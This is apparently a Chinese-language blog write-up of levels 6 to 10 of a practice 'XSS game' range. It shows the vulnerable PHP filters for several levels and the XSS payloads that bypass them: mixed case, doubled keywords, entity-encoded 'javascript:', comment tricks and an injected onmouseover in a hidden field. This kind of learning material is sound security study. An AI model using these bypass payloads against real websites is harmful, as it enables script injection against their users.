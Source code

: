 ```yaml
---
layout: post
title: "XSS_Game-level-6-10" 
subtitle: "XSS_Game-level-6-10"
date: 2019-07-20
author: ppbibo
category: Notes

---
```




[TOC]

**PS :** 

继续上一次的[xss 学习](https://6o9.im/notes/2019/06/25/XSS_Game-level-1-5.html)，记录笔记。



## Level-6 大小写混用绕过

继续使用第 level-5 关的 **payload** ```"><a href="javascript:alert(1)">点我有惊喜～ ``` 进行测试，回显如下:

```html
<h1 align=center>欢迎来到level6</h1>
<h2 align=center>没有找到和&quot;&gt;&lt;a href=&quot;javascript:alert(1)&quot;&gt;点我有惊喜～相关的结果.</h2><center>
<form action=level6.php method=GET>
<input name=keyword  value=""><a hr_ef="javascript:alert(1)">点我有惊喜～">
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level6.png></center>
<h3 align=center>payload的长度:51</h3><h3 align=center>By:HACK学习</h3>
```

发现将href 替换成了 hr_ef 。

Tips: *HTML 标记语言中标签实际上是对大小写不敏感的*

所以我们使用大小写混用来绕过 **Payload**```"><a hRef="javascript:alert(1)">点我有惊喜~```

![xss_level_6](/static/img/xss_level_6.png)



## Level-7 双写绕过

继续尝试上一关的 **Payload** ```"><a hRef="javascript:alert(1)">点我有惊喜~``` 进行测试，回显如下

```html
<body>
<h1 align=center>欢迎来到level7</h1>
<h2 align=center>没有找到和&quot;&gt;&lt;a href=&quot;javascript:alert(1)&quot;&gt;点我有惊喜~相关的结果.</h2><center>
<form action=level7.php method=GET>
<input name=keyword  value=""><a ="java:alert(1)">点我有惊喜~">
<input type=submit name=submit value=搜索 />
</form>
</center><center><img src=level7.png></center>
<h3 align=center>payload的长度:38</h3><h3 align=center>By:HACK学习</h3>
</body>
```

发现直接过滤了 `href` 、 `on` 、 `script` 等关键字，

构造**Payload**  ```"><a hrhrefef="javascrscriptipt:alert(1)">点我有惊喜~```

**RT：**

![xss_level_7](/static/img/xss_level_7.png)



## Level-8 Unicode 编码绕过

PHP 源代码如下：

```php
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
$str7=str_replace('"','&quot',$str6);
echo '<center>
<form action=level8.php method=GET>
<input name=keyword  value="'.htmlspecialchars($str).'">
<input type=submit name=submit value=添加友情链接 />
</form>
</center>';
```

发现将 ```script``` ```on``` ```src``` ```data``` ```href``` ```"``` 都给加上了 ```_``` 

先随便测试 **Payload** ```javascript:alert(1)``` 回显：

```html
<center><BR><a href="javascr_ipt:alert(1)">友情链接</a></center><center><img src=level8.jpg></center>
```

这个使用uncode 编码来进行绕过 [【参考】](https://6o9.im/security/2019/01/12/XSS-Learning-Notes.html)

**Payload ** ```javascrip&#116;:alert(1)```  或者 ```javascrip&#x74;:alert(1)``` 如图：

![xss_level_8](/static/img/xss_level_8.png)



## Level-9 注释绕过

这一关源代码比上一关多了几行代码如图：

```php
if(false===strpos($str7,'http://'))
{echo '<center><BR><a href="您的链接不合法？有没有！">友情链接</a></center>';}
else{echo '<center><BR><a href="'.$str7.'">友情链接</a></center>';}
```

也就是说我们的 **Payload** 中一定要包含 ```http://``` 

构造 **Payload**  ```javascrip&#116;:alert(1)/*http://*/```

利用js注释来绕过。**RT：**

![xss_level_9](/static/img/xss_level_9.png)

*Tips:*

```javascript
//     		 # js注释

<!-- -->   # HTML注释

/**/   		 # js注释
```



##Level-10 利用隐藏的表单来进行插入

查看源代码

```php
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
```

发现 ```htmlspecialchars```  函数只对 ```keyword``` 参数进行了校验并有对 ```t_sort```参数进行校验 ，

so 构造 **Payload**  ```?keyword=1&t_sort=1" type="text" onmouseover="alert(1)```

**RT :**

![xss_level_10](/static/img/xss_level_10.png)



## Level-11 

持续更新

time：2019-7-20



[靶机地址](http://xss.tesla-space.com/level10.php)